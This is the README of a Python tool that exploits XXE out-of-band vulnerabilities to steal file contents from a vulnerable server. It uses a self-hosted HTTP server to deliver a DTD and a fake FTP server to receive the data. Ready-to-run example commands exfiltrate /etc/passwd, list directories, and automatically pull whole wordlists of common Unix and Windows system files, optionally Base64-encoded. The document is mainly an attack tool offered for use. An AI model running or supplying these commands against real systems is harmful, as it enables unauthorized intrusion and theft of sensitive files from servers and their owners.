 # XXE OOB Exfiltrator

## Description
This is a simple tool for exploiting XXE Out-Of-Band vulnerability to exfiltrate files content (or list directories) using a self-hosted HTTP server to deliver a DTD which links to a self-hosted simulated FTP server for exfiltrating the file content.

## Features
* External DTD inclusion by using self-hosted HTTP server
* Multi-line content exfiltration by using `ftp://` URI scheme and self-hosted simulated FTP server
* Base64 encoded content exfiltration by using `php://` URI scheme and self-hosted simulated FTP server
* Single file exfiltration (and in some cases directory listing)
* Multiple files exfiltration using a wordlist of filepaths
* Output exfiltrated content to a file
* Save exfiltrated files to a directory
* Automatically trigger exploit by sending HTTP request to vulnerable server before starting local servers for exfiltration

### Note:
The multiline content exfiltration (without Base64 encoding) will work only on environments that allow multiline URIs, for instance in some Java environments it won't work because Java doesn't allow multiline URIs since version 8. Also it won't work with binary files because bad characters will break the URI.

## Usage
To run the script you need Python 3 and the Python `requests` library.

To run in automatic mode you need a JSON requestfile that will be parsed by the script to automatically trigger the exploit. A template of the JSON requestfile is available [here](data/reqfile_template.json).

### Help
```
usage: xxeoob.py [-h] -s SERVER [-f FILE] [-fp FTP_PORT] [-hp HTTP_PORT]
                 [-o OUTFILE] [-w WORDLIST] [-r REQUESTFILE] [-b] [-d DELAY]

XXE OOB file content exfiltrator via self-hosted HTTP and FTP servers

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        This server IP/hostname
  -f FILE, --file FILE  File to retrieve in vulnerable server
  -fp FTP_PORT, --ftp-port FTP_PORT
                        FTP server port (default: 21)
  -hp HTTP_PORT, --http-port HTTP_PORT
                        HTTP server port (default: 80)
  -o OUTFILE, --outfile OUTFILE
                        Output exfiltrated content to file (or directory in
                        case of multiple files)
  -w WORDLIST, --wordlist WORDLIST
                        Wordlist containing a list of files to retrieve
  -r REQUESTFILE, --requestfile REQUESTFILE
                        Use JSON request file for automatic mode (to
                        automatically trigger the request to vulnerable
                        server)
  -b, --base64          Convert exfiltrated content from Base64
  -d DELAY, --delay DELAY
                        Delay in seconds between files exfiltrated in wordlist
                        mode (to avoid DoS)
```

### Examples
`./xxeoob.py -s 10.10.10.10 -hp 8081 -fp 2121 -f /etc/passwd`

Exfiltrate "/etc/passwd" file content

`./xxeoob.py -s 192.168.1.123 -f /etc`

List the content of the directory "/etc"

`./xxeoob.py -s 172.17.0.1 -w data/linux_commonpaths_wordlist -o exfiltrated_files -r custom_reqfile.json`

Automatically exfiltrate all common unix files and save them in "exfiltrated_files" directory

`./xxeoob.py -s 127.0.0.1 -w data/windows_commonpaths_wordlist -o exfiltrated_files -r custom_reqfile.json -b`

Automatically exfiltrate all common windows files in Base64 mode and save them in "exfiltrated_files" directory
